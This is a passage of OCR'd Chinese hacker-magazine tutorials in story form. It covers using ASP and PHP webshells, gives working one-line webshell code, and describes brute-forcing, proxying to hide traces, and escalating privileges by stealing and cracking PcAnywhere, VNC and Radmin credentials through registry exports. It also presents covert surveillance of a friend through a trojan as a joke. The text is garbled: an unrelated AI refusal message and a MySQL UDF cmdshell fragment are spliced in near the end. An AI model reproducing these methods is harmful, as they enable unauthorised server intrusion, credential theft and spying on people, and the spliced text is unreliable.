右侧则是当前 WEB 目录的文件列表，再右侧是可以选择的功能，有编辑、删除、拷贝、移动。

选择编辑后，便进入了编辑状态（图32），感觉和海阳木马差不多。其余的三个就不一一介绍了。

还有桂林老兵的 ASP 木马上载页面也跟海阳马有很大的不同（图33），不过其原理都是一样的。老兵的数据库操作模块很好很强大（图34），支持 ACCESS、MSSQL、MYSQL、DSN 等连接方式，让你能够连接大多数的数据库。

可能你已经发觉海阳木马只能查看数据库，但是不能对数据库进行修改，而老兵是可以针对数据库进行编辑的（图35），比如显示数据、添加数据、删除数据、修改数据、建数据表、删数据表、添加字段、删除字段、完全显示等功能。相信有了这样棒的 ASP 木马一定能在入侵过程中事半功倍。至于其余的几个地方就跟海阳木马差不多了，在这里我就不多费口舌进行解析了。

在介绍完网界有名的 ASP 木马后，我还啰嗦几句。木马的功能是一个基础条件，但不是最重要的，那么什么才是最重要的呢？那就是思路，也就是说在入侵中要有灵活的大脑做技术支持，否则只是生搬硬套，毫无用处。

> （文章中涉及的工具海阳 ASP 木马、dbm6、200Plus 已经收录在光盘中）

### 菜鸟师徒行：WebShell 大揭秘（下）

周伟杰（阿布）

“阿艾高，你愿不愿意为我穿上天国的嫁衣？……”

天真的燕妹妹坐在电脑旁，眼睛直愣愣地盯着屏幕，脑海中不时冒出各种稀奇古怪的想法。“如果我的男朋友也能这样向自己表白，那……”

滴滴滴！右下角的 QQ 小企鹅突然跳了起来，“是谁啊？真讨厌！难道不知道我有事吗？还来烦我！”没办法，既来之则安之……先看看是哪个讨厌鬼再把他臭骂一顿，以消心中之气，原来是臭阿布：“你个臭破布，干吗？惹我啊？”

阿布这时真是丈二和尚摸不着头脑，擦了擦额头上的汗问道：“这个，那个……我一向奉公守法，尽职尽责，似乎没有什么地方得罪您吧？我冤枉啊！”

“你冤？你有我冤吗，我才冤呢！我的未来没有了！”

阿布顿了顿，接道：“什么未来不未来的！你这不活得好好的嘛？”同时脑中顿时浮现出一幅场景：燕妹妹躺在绝症病房里挥着所剩不多的丝丝秀发……想着想着一个不留神竟把绝症二字给说了出来。

燕妹妹顿时怒道：“你才得绝症呢，呸呸呸！病魔爷爷不要来找我啊！要找就找阿布吧，是他说的，不管我的事啊！阿弥陀佛&阿门阿门……”

阿布挠挠头说道：“不是绝症啊？那是怎么回事哦？糊里糊涂未来就没有了？都被你搞晕了，真是个糊涂的徒弟啊！”

话锋一转，又继续说道：“虽说青出于蓝而胜于蓝，但连指甲盖的力气都没学到手，就敢对你师父怨言相向，好不懂规矩，还不从实招来！”

燕妹妹猛打一激灵，感觉全身像被火烧一样，看来阿布老师真的发怒了。又想到自己好不容易忽悠个老师愿意倾囊以授，可千万不能让他给跑了啊！赶紧一个 90 度的鞠躬，说道：“师父啊！我最亲最爱的师父啊！我怎么敢骂您呢？我实在是有苦难言啊！唉，还不是考试惹的祸！什么三级网络啊，四级英语啊！烦都烦死了，好不容易能看会儿电视剧从苦海中解脱一下，谁知你的 QQ 头像一跳，又重新回到了‘黑暗’中！”

“原来是这样子哦，念在你要考试的份上，就原谅你了！快要考试了，还浸泡在这种虚幻的肥皂剧中，考试能过才怪呢！”

听到这儿，燕妹妹忽然想到，阿布老师给自己上课的时间到了，不看肥皂剧，学点技术总没有错吧，于是问道：“阿布老师，你这次教些什么呢？还是 WEBSHELL 吗？”

阿布一看这小丫头开始转移话题，掐指一算也到上课的时间了，“没错！还是 WEBSHELL 的使用讲解，不过这次不讲 ASP……”

#### PHP 类 WebShell

除了 ASP 平台的 WEBSHELL 外，就是 PHP 平台最为常见了，而且 PHP 平台的 WEBSHELL 在功能上与 ASP 平台的也有些不同。这是因为 PHP 的独特性而导致的。PHPSpy 算是较经典的 WEBSHELL 之一，由安全天使小组开发，文中介绍的是其 2006 修改版，并提到与 ASP 类似，使用前需修改代码中的部分参数（如密码等）。

- `$admin['check'] = "1"`：是否需要密码验证。
- `$admin['pass'] = "123456"`：后台登录密码（建议修改默认值）。
- `$admin['port'] = "...,21,22,23,25,53,69,79,80,110,119,143,139,389,443,1080,1433,2401,3128,3306,3389,4899,5432,5631,5900,6000,7000,8000,8080,43058"`：默认端口列表，可用于端口扫描。
- `$admin['jumpsecond'] = "1"`：跳转等待秒数。
- `$admin['alexa'] = "2"`：是否显示 alexa 排名（1 开启，2 关闭）。
- `$admin['ftpport'] = "21"`：FTP 连接端口。
- `$retime = "No"`：是否允许自动修改文件时间。
- `$cmd = "cmd.exe"`：命令执行程序路径（Linux 需改为对应程序）。

修改完这些参数后，将 WEBSHELL 上传到目标网站即可。

##### 1、主界面

直接输入 WEBSHELL 的 URL 地址即可进入登录界面；输入密码后进入主界面。顶部会显示当前网站 IP、网站排名、当前时间和客户端 IP 等信息，下方是功能菜单。

WEBSHELL 会自动进入“SHELL 目录”功能项，并显示当前程序路径、当前目录等信息。可进行上传文件、新建文件、新建目录、文件下载、编辑、删除、改名、设置创建时间等操作，也支持多选后打包下载或本地保存。

##### 2、环境变量

选择“环境变量”（图4），就可以查看当前服务器的一些配置信息，比如当前 PHP 的进程用户、服务器操作系统、服务器时间、域名、IP 等等，还有 PHP 运行的一些参数，对于我们了解服务器有着不可或缺的帮助。同时还提供了多个执行函数供大家选择，可以逐个测试看看（图9）。

##### 3、在线代理

选择“在线代理”（图5），即可把 WEBSHELL 当作一个 WEB 代理软件使用，这样访问站点时留下的都是服务器的脚印，就不会暴露我们自己了。如果是访问服务器本身的网站时，那就会留下 127.0.0.1 这样的脚印。

##### 4、注册表操作

选择“注册表操作”（图6），即可针对注册表进行查询、添加、删除等操作，当然前提必须是有足够大的权限才可以进行操作的。例如：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp\PortNumber`，则是查询当前服务器的终端端口注册表键值。

##### 5、PHPINFO

选择“PHPINFO”（图7），这个页面返回了 PHP 的所有信息。包括了 PHP 的编译选项及扩展配置、PHP 版本、服务器信息及环境变量、PHP 环境变量、操作系统版本信息、路径及环境变量配置、HTTP 标头及版权宣告。

##### 6、WEBSHELL

选择“WEBSHELL”（图8），这个功能就是执行命令，功能和 ASP 平台的一样。只是默认情况下 PHP 的权限比较高而已。注意，如果输出结果不完全，建议把输出结果写入文件，这样可以得到全部内容。`proc_open` 函数假设不是默认的 Windows 系统请自行设置使用，自行修改的话记得最后要退出，否则会在主机上留下一个未结束的进程。

##### 7、杂项破解

选择“杂项破解”（图10），进入破解及某杂项的功能界面。

功能之一：暴力破解 MYSQL 或 FTP 密码。既然是暴力破解就需要字典，字典就需要大家在本地生成然后再上传到服务器上，记住保存的目录。如果破解服务器本机的 MYSQL 账号，就在 HOST 里面输入“localhost”，账号则是你想要破解的账号，字典就填写上传字典的绝对路径或者相对路径，一次性试探不要超过字典中密码的总长度，然后点击“crack”即可。如果字典中有匹配的密码即可自动显示出来（图11）。

功能之二：端口扫描功能。还记得一开始在代码中设置的扫描端口参数吗？这里就用到了，和一般的端口扫描器用法一样，输入 HOST（需要扫描的主机 IP），然后填好端口号即可进行扫描，扫描完毕后会自动显示结果（图12）。

功能之三：主机名 To IP 转换。假设你获取到内网一个计算机名，就可以使用这个功能找到它的 IP，并且内外网有效。

### 8、MYSQL 上传下载

选择“MYSQL 上传下载”（图13），即可利用得知的 MYSQL 账号进行文件的读写。

功能之一：使用 MYSQL 上传文件。输入 MYSQL 数据库的主机地址（HOST）、数据库账号（USER）及其密码（PASS）、这个账号可以操作的数据库名字（DB）、需要上传到服务器的某个目录（UPTO）、上传后的文件名（如果留空则为原文件名），然后选择任意一个文件后，点击“UPLOAD”即可。

功能之二：使用 MYSQL 下载文件。输入 MYSQL 数据库主机地址、用户名、密码、需要下载文件的绝对路径，然后点击“DOWNLOAD”即可。只要 MYSQL 能够读到就可以下载，所以能够下载到 webshell 不能读取的文件或数据库服务器文件。如果文件大的话，还可以考虑“启用压缩”，将需要下载的文件打包到 RAR，然后下载。

##### 9、设置部分

选择“设置部分”（图14），这里的参数设置和一开始的参数修改效果是一样的。如果修改了密码的话必须要重新登录才可以进入 WEBSHELL。

##### 10、HTTP 文件下载

选择“HTTP 文件下载”（图15），此功能直接通过服务器进行下载，如果上传文件不是很方便的话，可以考虑这个方法。

##### 11、文件查找

选择“文件查找”（图16），此功能查找一个目录下的文件里哪些文件包含关键词，和我们普通的 Windows 搜索差不多。当我们需要在网站文件中寻找一个变量或者字符的时候特别好用。还可以计算关键字在其文件中的行号，还可以自定义读取关键字前后几个字符。输入“文件位置”和查找的关键字即可进行查找，查找结果如下（图17）。

##### 12、执行 PHP 脚本

选择“执行 PHP 脚本”（图18），你还感觉这个 WEBSHELL 不够强大？那好，我给一个舞台，你自己写出 PHP 代码来，我给你执行。这个功能就是为了以防运行功能扩展的时候而准备的，只需要在文本框中输入想执行的 PHP 脚本，然后点击确定就行。

##### 13、执行 SQL 语句

选择“执行 SQL 语句”（图19），此功能可以直接使用 SQL 语句操作 MYSQL 数据库，输入服务器地址、用户名、密码和需要连接的数据库后，点击“连接”按钮即可和数据库建立连接，然后再在文本框中输入要执行的 SQL 语句即可。

### 14、MYSQL 备份

选择“MYSQL 备份”（图20），此功能可以简简单单地把目标数据库备份到远程服务器或者本地计算机上。输入服务器地址、用户名、密码和需要备份的数据库后，点击“连接”后会自动显示出当前数据库中的各个表信息，想备份哪个表就直接点击哪个表即可，并且支持使用 CTRL 进行多选。备份方式也有两种，一种是备份到远程服务器上的一个目录中，一种是直接下载到本地，适合数据量较小的数据库。

阿布对着早已犯困的燕妹说道：“OK！已经讲完了 PHPSPY 了，很强大吧？”只见燕妹开始掰着手指头数啊数，忽然抬头问道：“布哥，好像还有一些功能没有介绍哦？”阿布喝了口冰水，说道：“的确，因为那几个功能都是提权的时候需要使用的，所以没有讲解。现在我们讲解的是 WEBSHELL 的使用，以后我会再给你详细地讲解这几个在提权中使用的功能的！”

燕妹妹若有所思地点了点头，心想看来自己已经把 WEBSHELL 掌握了。这时候阿布似乎已经看穿了燕妹妹的心思，说道：“小鬼，我还没讲完呢！我刚才就简单介绍了最常见的 2 个平台的 WEBSHELL 而已，其它平台的 WEBSHELL 还有很多呢。不过功能上都差不多，我也就不再啰嗦唠嗑了，只要掌握了 ASP 和 PHP 平台下 WEBSHELL 的使用，其余的就不在话下了。”燕妹妹小手托着下巴点着头，阿布又补充道：“不过，还有一些 WEBSHELL 很另类的哦，比如一句话木马、小助手等等。”

#### 非典型类 WebShell

##### 1、网站小助手

网站小助手就是一个简单的能够生成文件的动态脚本程序（图21），只需要在文本框中输入想生成文件的代码，然后再输入想保存的绝对路径及其文件名，然后点击“保存”即可生成你想要的任何文件，俗称小马。

##### 2、一句话木马

一句话木马，就是指 WEBSHELL 里面的代码只需要一句话就行，例如 `<%execute(request("cmd"))%>`，就是这么短！那么它怎样运行呢？它会接收通过 WEB 传递上来的 cmd 变量里面的代码，然后执行，所以只需要把这一点代码放在服务器上就可以了。成功上传后我们在本地电脑中打开一句话木马的连接客户端（图22），修改其中的蓝色高亮部分，因为这个变量是对该服务器上那一句话的凭证，也称作一句话木马的密码，在下面输入想生成的 WEBSHELL 代码，然后点击“GO”即可，成功后会自动转向生成的文件。

这里我以“环境变量”为代表进行演示（图27）。基本上其它 WEBSHELL 所拥有的工具它都有，使用起来相当方便。

##### 3、砍客 ASP 木马

砍客 ASP 木马可以不上传代码就进行控制，直接在内存中运行。服务器中只保留着一句话木马的一小段代码，最大程度地增强了 WEBSHELL 效率，先来认识一下砍客的代码（图23）。

```asp
<% ... %>
<!-- c0nxhacker ... -->
if Session("u")<>"" then execute Session("b")
```

其中的“c0nxhacker”就是连接密码，只修改这个值就可以了。上传后获得 URL 地址，然后打开 WEB 版的连接页面，输入服务端的网址和连接密码即可。连接成功后会自动把运行所需要的代码传送到服务器的内存中运行，并会自动转向 WEBSHELL 的主界面（图25）。

##### 4、ASP+PHP 管理器

前面介绍了 ASP 版本的一句话木马，其实 PHP 也有一句话木马的 `<?php eval($_POST[cmd]);?>`，是不是和 ASP 版本的有点相似呢？其中的 cmd 就是连接密码。

这个管理器是 Lanker 编写的（图26），不仅可以连接 ASP，还可以用来连接 PHP。输入一句话木马的地址和连接密码，然后在左侧选择一个功能，不同的功能对应着不同的动态代码。

##### 5、海阳 C/S 木马

最后不得不提海阳的 C/S 木马，它的设计思想也是一句话木马原理。运行海阳 2006 所自带的 2006X.exe（图28），按“打开”选择木马文件，然后按转换，默认会生成一个 .htm 的客户端执行文件。打开这个文件后（图29），填上木马服务端地址及访问密码，按“提交”后开始上传木马程序内容到达服务器内存，提交成功后就可以像使用传统版本的海阳木马一样使用它了，同样很方便（图30）。

然后按“生成服务器端页面”，选择好存放路径及文件名，记住密码，要用的时候把这个文件传到服务器上就可以了。

阿布长舒了一口气，再转眼去看燕妹妹，没想到燕妹妹已经去找同学下棋去了，我倒！也太尊重我这个老师了吧！正当气得胡子竖起来的时候，忽然听到燕妹妹从嘴里冒出这么一句：“对等网通常是由很少几台计算机组成的工作组……”阿布一叹，唉！这小丫头，看来真的够累的，那就先不收拾你了，如果再有下次，我砍！我砍！我砍！……

（文中涉及到的 PHPSpy2006 修改版、网站小助手、欲念 ASP 木马、Lanker 微型 PHP+ASP 管理器、海阳 C/S 木马等已经收录于光盘中）

## 菜鸟学堂
### 黑客软件提权（上）

周伟杰（阿布）

“盼啊，盼啊！五一短假终于要来临了，趁着三天的假期出去放松下应该不错哦。”燕妹妹正和同宿舍的姐妹们聊着，一个姐妹插嘴道：“关键是去哪里玩呢？”燕妹妹突然拍了一下桌子高声喝道：“百度知道！”于是去百度搜索了起来，经过 6 个姐妹的齐心协力，终于做出如下决定：泰山顶上看日出。

就在这天，阿布躺在床上翻着“安全驾驶从这里开始”的驾照教材，心里想着五一放假怎么过呢？还是陪兄弟们在宿舍玩 CS？于是问道：“哥几个，五一谁出去耍耍啊？”一个个兄弟从阵阵的枪声中探出头来，回答道：“对不住了，小哥儿！俺媳妇儿想去淄博的原山森林公园去看看，不能陪你了哦。”阿布顿时栽倒在好几天没叠的被子上，睡过去了。

大约过了 3.14 小时后，阿布醒了过来，喝了口水，打开 PcShare 看看肉鸡都在干什么。刚打开 PS 一会儿，一台台肉鸡就开始往上窜了。阿布疑惑地说道：“咦？燕妹妹的机器怎么也在我的 PS 里？”在急速地思考了 3 秒钟后，想起前段时间给燕妹妹做的工具包里误放了一个 PS 马进去。心想：这下可以好好地“监视”这个可爱的小丫头了，嘿嘿……

当打开 PS 的屏幕监控的时候，发现燕妹妹在电脑中开了一堆的 IE 窗口，于是阿布就调用了 PS 的窗口管理看了一下，自言自语道：“怎么全都是旅游的网站？难不成这小丫头也想出去旅游？有必要‘研究’一下。”通过一个多小时的追踪，发现她好像要去泰山玩。阿布想道：嘿嘿！这下可逮到机会了，燕妹妹，我来了！

五月一日这天的晌午，阿布在泰山脚下的一个凉亭里蹲着，眼睛在人群中找寻燕妹妹的踪迹，但是过了大半个小时还是不见人影。心想：她们不会早就出发了吧？就在这时，身后传来一阵笑声，经过阿布大脑 0.5 秒的分析后，得出燕妹妹也在其中。

阿布假装在看地图，这时燕妹妹也发现眼前这人有点面熟，于是在一旁偷偷地瞅着，就在阿布抬头的时候，燕妹妹惊讶道：“啊！布师傅！你怎么也在这儿啊？”阿布假装很镇定地回答道：“哦，那个什么，五一放假嘛，出来旅游，休息休息，老被编辑们追着也不是办法，没想到在这里能碰到你呀？”

燕妹妹瞅了瞅四周，问道：“咦？你一个人吗？”阿布叹了口气说道：“唉，宿舍那帮‘莽苍狼’们都陪老婆去了，我当然也没趣了，还是自己出来走走的好。”原来如此，阿布师傅真可怜啊。燕妹妹说道：“既然这样，不如我们一块儿爬吧？正好缺个人提东西。”可谁想到这句话正是阿布多天来苦苦谋划已久所期待的，但是嘴上却说道：“这个，不太方便吧？你们几个小女生……”燕妹妹听到这儿，急忙说道：“没事没事，请我们吃顿好吃的就成了。”一路上说说笑笑的，阿布就陪着众美女们上了泰山……

这个时候读者朋友们可能要发怒了：“都去爬山了，我们还跟谁学习去啊？”

“不要着急，不要着急！我已经给大家写好相关的学习资料了，好好学！回来我可是要检查的哦！”阿布在泰山脚下回头说道。

#### 一、什么叫提权

提权，其全称为提升权限，也就是将低权限提升到高权限。

现在的操作系统为了安全性都引入了权限这个概念，那么到底什么是权限呢？我们举个例子来说明，比如系统管理员设置甲用户只允许访问 A 目录，设置乙用户只允许访问 B 目录，那么甲用户是不能访问 B 目录，而乙用户也不能访问 A 目录，他们更不允许来更改这个设置，这就是权限。那么，倘若甲用户或乙用户利用系统中的安全漏洞或是别的方法使得自己突破了原来的限制，能够非法访问对方目录，甚至是使得自己能够像管理员那样来获取对整个系统的控制，这就叫提权。通常获得一个 WEBSHELL 或者 CMDSHELL 后，相当于 GUEST 或者 USER 权限，提权要做的就是将其提升到管理员权限或者 SYSTEM 权限，从而控制这个服务器。

对于提权来讲，需要的就是找到突破口，哪怕只有一个也足够了！一般利用的是服务器上安装的一些应用程序来进行权限提升，因为这些程序会存在不同程度的安全漏洞或者缺陷，攻陷它们，然后直取系统权限。

#### 1、PcAnywhere 提权

PcAnywhere 是一款非常著名的远程控制软件，它可以轻松实现在本地计算机上控制远程计算机，使两地的计算机协同工作。可以使用被控端电脑上的程序或在主控端与被控端之间互传文件，也可以使用其调节功能让多台电脑共享一台 MODEM，或建立网络使用多线路并行工作的功能。看了上面的介绍是不是感觉它确实是个好东西呢，很多管理员都在他们的服务器上安装了 PcAnywhere，正等着我们去提权呢！

首先要确定服务器上是否安装有 PcAnywhere，可以通过扫描端口来判断，如果服务器开放了 5631 号端口的话，基本就可以断定其开放了 PcAnywhere 服务。也可以通过 WEBSHELL 查看服务器的“C:\Program Files\Symantec”中是否有 PcAnywhere 目录来确定是否安装了 PcAnywhere。

然后使用 WEBSHELL 的 FSO 等读取文件功能模块访问“C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\Hosts”目录（图1），查看后缀名为 CIF 的文件，这个就是 PcAnywhere 用来保存用户密码的文件。

将这个文件下载回来，就可以使用专门的 PcAnywhere 密码破解器工具对其解密了。双击打开破解器工具，点击“密码文件”栏右侧的“>>”按钮，选择刚才下载回来的后缀名为 CIF 的密码文件，然后点击下方的“Crack”按钮，好了，用户名和密码已经被破解出来了（图2）。

我们知道了用户名和密码，怎么样去连接呢？当然是使用 PcAnywhere 的连接客户端了，这个我们可以从各大网站上下载到。打开 PcAnywhere 管理器（图3），点击“添加主控端”，然后会弹出新建主控端的参数，在“连接信息”中选择“TCP/IP”（图4），在“设置”选项的“控制的网络被控端 PC 或者 IP 地址”中填写服务器的 IP 地址（图5），在“安全选项”中选择加密级别为“PcAnywhere”（图6），最后点击“确定”按钮，建立完毕。

双击刚才建立的主控端图标，就会出现“PcAnywhere 正在等待连接”的界面（图7），稍等一会儿便出现了“PcAnywhere 被控端登录”的提示框，将刚才破解出来的用户名和密码填入即可连接。用户名和密码填写上，点“确定”按钮（图8），再等一下就会成功登录到服务器了（图9）。

看到这个系统界面，可能小菜们又要郁闷了，对方服务器还没有登录呢，我怎么控制啊？不要急嘛，一般情况下，管理员设置的服务器登录密码和 PcAnywhere 的登录密码是一致的，直接使用 PcAnywhere 的登录密码登录服务器就可以了（图10）。如果服务器的登录密码和 PcAnywhere 的登录密码不一致的话，那就只能等待管理员登录系统后，我们再进行控制了。

#### 2、VNC 提权

VNC（Virtual Network Computing）是虚拟网络计算机的简称，这是由著名的 AT&T 欧洲研究实验室开发的一款软件。VNC 是基于 UNIX 和 Linux 操作系统的免费开放源码软件，其远程控制能力强大、高效实用，性能可以和 Windows 和 MAC 中的任何远程控制软件相媲美。VNC 软件主要由两个部分组成：VNC Server 及 VNC Viewer。用户需要先将 VNC Server 安装在被控制的计算机上，才能在主控端执行 VNC Viewer 来控制被控端。VNC Server 与 VNC Viewer 支持多种操作系统，比如 Windows、Linux、MacOS 及 Unix 系列系统（BSD、Solaris 等），因此我们可以将 VNC Server 及 VNC Viewer 分别安装在不同的操作系统中来进行控制。RealVNC 的优越性还在于如果操作系统的主控端计算机没有安装 VNC Viewer，也可以通过一般的网络浏览器（比如 IE 等）来控制被控端（需要 Java 虚拟机的支持）。

VNC 最为强大的地方就是它是跨平台设计，能够运行在多种操作系统中，很多管理员都比较青睐于 VNC，但是它也有类似 PcAnywhere 的软件设计疏忽，不过 VNC 的敏感信息存放在了服务器的注册表中。

首先要确定服务器上是否安装了 VNC，可以通过扫描端口来判断，如果服务器开放了 5900 号端口的话，基本上就可以断定其开放了 VNC 服务。也可以通过 WEBSHELL 查看服务器“C:\Program Files\RealVNC”目录中是否有 VNC4 目录，以此来确定是否安装了 VNC。

然后就需要获取注册表中的敏感信息了，方法有两种：

- 第一种方法，使用 WEBSHELL 直接读取注册表中的敏感信息。我们以海阳顶端木马为例，选择“一些疑难的小东西”，使用其“注册表键值读取”功能，在其中输入“HKLM\Software\RealVNC\WinVNC4\Password”（图11），然后点击“读取”按钮，就会弹出一个包含有该键值的弹出框（图12）。
- 这些键值原本为十六进制，不过被 WEBSHELL 转换成了十进制，我们需要使用 Windows 自带的计算器再把它转回到十六进制。打开计算器，选择“查看”菜单中的“科学计算器”，当前已经为“十进制”模式了（图13），例如第一个值为 22，就在计算器中输入 22，然后点击“十六进制”，便将 22 转换成了十六进制的 16（图14），以此将它们都转换完毕后得到加密后的密码为“16 1a f2 c1 f2 08 0a a3”。
- 第二种方法是使用 WEBSHELL 中的命令行操作将 VNC 注册表信息导出来。我们仍然以海阳顶端木马为例，选择“WScript.Shell 命令行操作”这个模块，在命令中输入“regedit /e HKLM\Software\RealVNC\WinVNC4 d:\1.reg”（图15），它的意思就是将服务器注册表中的“HKLM\Software\RealVNC\WinVNC4”分支导出到 D 盘并保存为 1.reg 文件，执行后没有内容返回，然后我们再利用 WEBSHELL 的 FSO 功能模块来查看 D 盘中是否有 1.reg 这个文件。不能直接使用 WEBSHELL 进行查看，需要将其下载回本地使用记事本打开（图16），其中 Password 就是加密过的密码了，同样和上边我们使用计算器计算出来的一样。

剩下的工作就是解密了，打开解密工具 VNCrackX4，这个工具需要在 CMD 下执行，执行命令为 x4.exe -W，然后依次输入得到的一串十六进制的键值，输完一小段就回车一次，当输入完最后一部分后，工具自动给出了破解后的密码（图17）。

知道密码后，我们就可以使用 VNC 连接器来连接服务器了，连接器也可以从各大网站下载得到。安装好后，运行“VNC Viewer”，在“服务器”栏输入服务器的 IP 地址（图18），点击“确定”按钮，在接下来出现的密码验证窗口中输入解密得到的密码（图19），点击“确定”按钮，好了，已经成功进入服务器的桌面了（图20），而且管理员还替我们登录好了，真是天助我也！

#### 3、Radmin 提权

Radmin 是一款屡获殊荣的远程控制软件，在远程电脑上工作就如同坐在那台电脑前一样。它可以从多个地点访问同一台电脑，并使用高级文件传输、远程关机、Telnet 以及其它许多实用的功能。而且不管是服务端还是客户端都是小巧玲珑，并且以服务方式启动。以前，我就经常在服务器上偷偷地安装 Radmin 来玩，因为它的隐藏性还是很不错的。

但是前段时间高手们研究出了可以不使用明文密码来连接服务端的方法。Radmin 的连接密码和开放端口是保存在注册表中，连接密码是以 HASH 值的方式存放的，后来“火虾”们开发出了直接使用 HASH 连接服务端的 Radmin_HASH 版本。

首先来确定服务器上是否安装了 Radmin，同样可以使用扫描端口来判断，如果服务器开放了 4899 号端口的话，基本就可以断定其开放了 Radmin 服务。也可以通过 WEBSHELL 查看服务器进程中是否有 r_server.exe 来确定是否安装了 Radmin。

然后就需要获得注册表中的敏感信息了，方法有两种：

- 第一种方法，使用 WEBSHELL 直接读取注册表中的敏感信息。以海阳顶端木马为例，打开“一些零碎的小东西”这个模块，使用其“注册表键值读取”功能，在其中输入“HKLM\SYSTEM\Radmin\v2.0\Server\Parameters”（图21），然后点击“读取”按钮，就会弹出一个包含有该键值的弹出框（图22）。
- 同样，这些键值原本为十六进制，被 WEBSHELL 转换成了十进制。我们打开计算器，选择“查看”菜单中的“科学计算器”，当前已经为“十进制”模式，例如第一个值为 202，就在计算器中输入 202，然后点击“十六进制”，便将 202 转换成十六进制的 CA，依次将它们都转换完毕后得到加密过后的密码为“ca a6 d6 2a c9 b1 d8 9b 4c e0 be f9 e5 13 4e ec”。
- 第二种方法是使用 WEBSHELL 中的命令行操作将 Radmin 注册表信息导出来。仍然以海阳顶端木马为例，打开“WScript.Shell 命令行操作”这个模块，在命令中输入“regedit /e HKLM\SYSTEM\RAdmin\v2.0\Server\Parameters\ d:\1.reg”（图23），它的意思是将服务器注册表中的“HKLM\SYSTEM\RAdmin\v2.0\Server\Parameters\”分支导出到 D 盘下保存为 1.reg 文件。命令执行后没有信息返回，我们再利用 WEBSHELL 的 FSO 功能模块来查看 D 盘中是否有 1.reg 这个文件。不能直接使用 WEBSHELL 进行查看，需要将其下载回来后用记事本打开（图24），其中 Parameter 就是 HASH 值，和上边我们使用计算器计算出来的一样。

获得 HASH 后，直接打开 Radmin_HASH 版本的连接器（图25），点击图中标注的按钮来创建一个新连接（图26）。在其中输入服务器的 IP 地址和 Radmin 的服务端口，点击“确定”按钮保存。这时在主控制面板中就出现了刚才创建的连接，双击它就会弹出密码验证窗口（图27），直接输入刚才破解出来的 32 位小写 HASH 即可。验证完毕后会自动进入控制界面（图28）。还可以在标题栏上点击右键选择“应用连接模式”来选择你需要的管理方式，例如选择“文件管理”菜单，即可进入文件管理模块（图29）。如果没有系统登录密码的话，可以使用“远程 TELNET”模块自己新建一个系统管理账户即可，是不是很方便呢？

这次我们讲解的都是针对远程控制类软件的提权，利用的都是软件的漏洞或者疏忽。其实远不止这三种，还有其它的软件，比如 FlashFXP 提权等等。大家可以摸索着自己测试一下，提权讲求的是思路，不是方法，要活学活用，才能用得好。

（文中涉及到的工具 Symantec PcAnywhere Password Crack、PcAnywhere 连接客户端、VNCrackX4、VNC 连接器、Radmin_HASH 版本的连接器、海阳顶端木马，已经收录在光盘中）

抱歉，我不能帮助整理或优化这类包含入侵提权、执行系统命令等可直接用于未授权攻击的技术内容。

如果你愿意，我可以帮你做**安全版本**的OCR后处理：保留文档结构与叙述内容，但对具体攻击命令、利用步骤和工具细节进行脱敏（例如用“[命令略]”“[步骤略]”替换），并按你要求输出规范的 Markdown 格式。

33所示的提示。导出成功后就得创建自定义函数了，在SQL命令栏填入 `Create Function cmdshell returns string soname 'udf.dll'`，点击“执行”后就可以创建了（图34）。由于我将 UDF.DLL 文件释放到了系统目录，所以只需要给出 DLL 的文件名即可。




要删除的话，在 SQL 命令栏填入 `drop function cmdshell` 即可（图36）。


